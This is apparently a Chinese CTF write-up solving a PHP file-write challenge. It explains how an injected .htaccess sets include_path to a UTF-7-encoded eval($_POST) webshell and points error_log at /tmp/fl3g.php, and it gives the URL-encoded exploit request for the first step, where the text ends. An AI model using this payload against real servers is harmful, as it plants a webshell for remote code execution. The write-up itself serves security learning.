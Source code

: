 ```php
        if(is_file($file)){
            if ($file !== "index.php") {
                unlink($file);
            }
        }
    }
    file_put_contents($filename, $content . "\nJust one chance");
?>
```

整个代码的逻辑也比较简单，首先删除当前目录下非index.php的文件，然后 include_once("fl3g.php");，之后获取filename和content参数的值，并将content写入filename指定的文件中。其中对filename和content都有过滤，要求content中不能有on、html等关键字，且filename不能匹配到 a-z 和点号 . 以外的字符。

这道题因为看到file_put_content和unlink自然想到了条件竞争写shell，但是测试过程虽然能够写进.php文件但是不解析。

并且由于题目服务器中间件为 Apache，因此想到了传 .htaceess 利用自定义错误文件写Webshell。但我们还需要解决一下问题。

**（1）使 .htaccess 生效**

如果我们直接上传.htaccess文件，由于我们写入的内容会被自动在末尾加上“\nJust one chance”，所以会使我们的.htaccess文件不生效，出现响应500的问题。为了时我们写入的.htaccess文件生效，我们要采用 \ 的方式将换行符转义成普通字符，然后用 # 来注释单行了，即：

```php
......
# \\nJust one chance
```

这样我们写入上传的 .htaccess 文件就能生效了。

**（2）include_path**

在题目的代码中有一处 include_once("fl3g.php");，但是当我们访问fl3g.php文件时却发现该文件并不存在，这里便用到了php.ini中的include_path选项。

include_path可以用来设置include()或require()函数包含文件的参考目录路径，也就是说当使用include()或require()函数包含文件的时候，程序首先以include_path设置的路径作为参考点去找文件，如果找不到，则以程序自身所在的路径为参考点去找所要的文件，如果都找不到，则出错，那么我们就可以通过修改它来控制include的路径，那么如果我们能够在其它目录写入同名的fl3g.php让其包含，那么就能够getshell，并且可以使fl3g.php文件不被删除。

**（3）指定目录写文件（error_log）**

前面我们已经了解了，error_log 可以将 PHP 运行报错的记录写到指定文件中，利用这一点我们可以写Webshell。 但是如何触发报错呢？这就是为什么代码中写了一处不存在的fl3g.php的原因。我们可以将include_path的内容设置成payload的内容，这时访问页面，页面尝试将 payload 作为一个路径去访问时就会因为找不到fl3g.php而报错，并将报错记录在指定的错误文件中。

但是前面也说了，当我们传递 PHP 的 payload 时，因为我们传过去的内容会经过 html 编码，所以我们需要用 UTF-7 来绕过：

```php
php_value include_path "+ADw?php eval(+ACQAXw-POST+AFs-whoami+AF0)+ADs?+AD4-"
php_value error_log /tmp/fl3g.php
# \
```

解题过程如下。

- **第一步：写入 .htaccess error_log 相关的配置，将 payload 写入目标文件**

将上述内容进行url编码，然后构造 url 并执行：

```php
/index.php?filename=.htaccess&content=php_value%20include_path%20%22%2BADw%3Fphp%20eval(%2BACQAXw-POST%2BAFs-whoami%2BAF0)%2BADs%3F%2BAD4-%22%0Aphp_value%20error_log%20%2Ftmp%2Ffl3g.php%0A%23%20%5C
```
